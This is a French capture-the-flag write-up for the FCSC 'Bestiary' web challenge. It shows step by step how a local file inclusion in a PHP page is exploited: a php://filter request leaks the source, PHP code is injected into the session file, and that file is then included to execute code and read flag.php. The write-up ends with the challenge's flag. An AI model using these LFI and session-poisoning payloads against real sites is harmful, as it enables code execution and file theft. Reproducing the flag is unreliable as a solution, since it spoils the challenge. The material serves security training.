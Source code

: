 # <center><b>Bestary</b></center>
</br>
<blockquote>On vous demande simplement de trouver le flag.
</blockquote>
<br>
Donc on arrive sur une page comme celle-ci où l'on nous demande de choisir un monstre 

![](./bestiary.png)

On choisit donc un monstre et on appuit sur "show description" et là on peut rearquer plusieurs choses

![](./bestiary1.png)

D'abord on peut voir que l'url à changée, '?monster' s'est rajouté avec comme paramètre le nom de notre monstre. C'est sûrement là que nous allons avoir une vulnérabilité, sûrement une LFI (Local File Inclusion) ou une RFI (Remote File Inclusion).
<br>
Ensuite nous pouvons également voir que notre PHPSESSID a changé en même temps que le monstre, ça pourrait nous aider plus tard.
<br>

Bref revenons à notre faille, on essaye alors d'inclure index.php en paramètre à '?monster' et on y arrive finalement en utilisant les wrappers :

    http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php

On reçoit alors le code source de index.php en base64, nous avons juste à le decoder, ce qui nous donne :

    <?php
	    session_save_path("./sessions/");
	    session_start();
	    include_once('flag.php');
    ?>
    <html>
    <head>
	    <title>Bestiary</title>
    </head>
    <body style="background-color:#3CB371;">
    <center><h1>Bestiary</h1></center>
    <script>
    function show()
    {
	    var monster = document.getElementById("monster").value;
	    .location.href = "index.php?monster="+monster;
    }
    </script>

    <p>
    <?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
    ?>
    </p>

    <select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
    </select> <input type="button" value="show description" onclick="show()">
    <div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
    </body>
    </html>


En lisant `session_save_path("./sessions/");` on peut déjà deviner le fichier dans lequel notre session sera stockée :

    http://challenges2.france-cybersecurity-challenge.fr:5004/sessions/sess_inserezvotrephpsessid

![](./bestiary2.png)

On peut alors voir que nous voyons le dernier monstre que nous avons visité. Mais si, vous ne vous rappelez pas ? Le cookie est changé en fonction du dernier monstre que nous avons regardé.<br>
C'est là que se trouve la vulnérabilité, si nous voulions afficher autre chose que le dernier monstre que nous avons regardé, il le serait totalement possible en changeant tout simplement le paramètre de 'monstre' dans l'index.<br>

Mais comment on a le flag ducoup ?<br>
Et bien vu que nous ne pouvons pas inclure le fichier 'flag.php', déjà inclus dans l'index.php, à cause de la fonction `include_once('flag.php');`.
Et bien il faut essayer de l'afficher sans l'inclure, ce que nous pouvons faire aisément avec les instructions `echo file_get_contents()` en php.
Essayons ça : 
<br>
<br>
On met met d'abord notre code en paramètre de 'monster'

    challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=<?php echo file_get_contents('flag.php') ?>

Ensuite il nous suffit d'inclure la path contenant notre session en exploitant la LFI 

    http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=./sessions/sess_votrephpsessid

La page ne nous retourne aucune erreur donc nous avons bien réussi à inclure le fichier, nous affichons le code source, et voilà notre fameux flag !

    monster|s:43:"<?php
	$flag="FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}";
